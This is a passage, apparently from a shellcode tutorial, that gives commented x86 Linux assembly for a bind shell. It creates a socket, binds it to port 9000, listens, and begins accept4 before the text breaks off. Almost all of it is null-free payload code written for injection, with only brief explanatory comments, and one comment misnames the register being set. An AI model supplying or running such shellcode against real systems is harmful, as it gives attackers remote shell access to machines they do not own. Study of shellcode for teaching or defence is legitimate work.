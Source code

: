 Final code:

```term
global _start

section .text

_start:

       xor eax, eax           ; Zeroes out EAX.
       xor ebx, ebx           ; Zeroes out EBX.
       xor ecx, ecx           ; Zeroes out ECX.
       xor edx, edx           ; Zeroes out EDX.
       xor esi, esi           ; Zeroes out ESI.

socket:

       push word 359          ; Pushes word 359 (socket) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov bl, 2              ; Moves value 2 into bl, giving the value AF_INET.
       mov cl, 1              ; Moves value 1 into bl, giving the value SOCK_STREAM.
       push edx               ; There isn't anything really needed within this parameter, so 0 is pushed from EDX.
       int 0x80               ; Call to kernel.
       mov esi, eax           ; Saves the value of eax for sockfd values later on.

bind:

       push word 361          ; Pushes word 361 (bind) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov ebx, esi           ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
       push edx               ; As the following parameter is a const struct sockaddr, and this is a bind shell, the first values aren't actually required, therefore, zeroes are 
                              ; pushed through EDX.
       push edx               ; The same as stated above.
       push word 0x2823       ; Pushes the word 9000 into the stack.
       push word 0x02         ; Pushes AF_INET into the stack.
       mov ecx, esp           ; Copies the value of ESP into ECX.
       mov dl, 16             ; The value 16 is inserted into DL, as this argument requires the length of the struct.
       int 0x80               ; Call to kernel.

listen:

       push word 363          ; Pushes word 363 (listen) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov ebx, esi           ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
       xor ecx, ecx           ; Zeroes ECX out.
       push ecx               ; Pushes ECX (0), as the backlog isn't really important.
       int 0x80               ; Call to kernel.

accept4:

       push word 364          ; Pushes word 364 (accept4) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov ebx, esi           ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
       xor ecx, ecx           ; As there is no syscall for accept, accept4 grants the possibility of a conversion from accept4 to accept if the values are satisfied with 0.
       xor edx, edx           ; Due to this event, the following registers will be set to 0 to cause such circumstance.
       xor esi, esi           ; The same as stated above.
```